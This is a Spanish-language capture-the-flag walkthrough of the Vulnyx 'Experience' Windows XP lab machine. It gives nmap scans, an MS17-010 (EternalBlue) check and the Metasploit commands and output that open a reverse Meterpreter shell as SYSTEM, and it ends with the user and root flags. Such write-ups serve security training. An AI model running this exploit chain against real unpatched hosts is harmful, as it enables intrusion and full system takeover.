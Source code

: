 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Experience Vulnyx (Very Easy- Windows)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 03:08 EDT
Nmap scan report for 192.168.5.65
Host is up (0.0017s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
MAC Address: 08:00:27:8D:14:A0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: EXPERIENCE, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:8d:14:a0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 13h29m59s, deviation: 4h56m59s, median: 9h59m59s
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: experience
|   NetBIOS computer name: EXPERIENCE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-24T10:08:42-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.65 seconds
```

Veremos que tiene varios puertos abiertos en concreto el `SAMBA` y el `RPC`, pero vamos a comprobar antes de nada que el `SAMBA` no sea vulnerable a un ataque de `eternal blue` con unos `scripts` de `nmap`.

```shell
nmap -p445 --script=smb-vuln-ms17-010 <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 03:12 EDT
Nmap scan report for 192.168.5.65
Host is up (0.011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:8D:14:A0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
```

Veremos que efectivamente es vulnerable, por lo que vamos a conectarnos a `metasploit` para explotarlas desde ahi.

## Metasploit

```shell
msfconsole -q
```

Una vez dentro buscaremos el siguiente modulo:

```shell
use exploit/windows/smb/ms17_010_psexec
```

Ahora vamos a pasar a la `configuracion/Ejecuccion` del mismo:

```shell
set LPORT <PORT>
set LHOST <IP_ATTACKER>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.50:7755 
[*] 192.168.5.65:445 - Target OS: Windows 5.1
[*] 192.168.5.65:445 - Filling barrel with fish... done
[*] 192.168.5.65:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.5.65:445 -  [*] Preparing dynamite...
[*] 192.168.5.65:445 -          [*] Trying stick 1 (x86)...Boom!
[*] 192.168.5.65:445 -  [+] Successfully Leaked Transaction!
[*] 192.168.5.65:445 -  [+] Successfully caught Fish-in-a-barrel
[*] 192.168.5.65:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.5.65:445 - Reading from CONNECTION struct at: 0x865963c8
[*] 192.168.5.65:445 - Built a write-what-where primitive...
[+] 192.168.5.65:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.5.65:445 - Selecting native target
[*] 192.168.5.65:445 - Uploading payload... YElfCKTF.exe
[*] 192.168.5.65:445 - Created \YElfCKTF.exe...
[+] 192.168.5.65:445 - Service started successfully...
[*] 192.168.5.65:445 - Deleting \YElfCKTF.exe...
[-] 192.168.5.65:445 - Delete of \YElfCKTF.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Sending stage (177734 bytes) to 192.168.5.65
[*] Meterpreter session 1 opened (192.168.5.50:7755 -> 192.168.5.65:1028) at 2025-07-24 03:17:39 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Con esto ya veremos que seremos `NT AUTHORITY\SYSTEM` directamente el mayor rando dentro de un equipo `Windows`.

Por lo que vamos a leer las `flags` de usuario y de `root`.

> user.txt

```
f9e24c8da0686680decee9e594178a2e
```

> root.txt

```
c1d5e7e4efece4a6022c4a4080c8114d
```
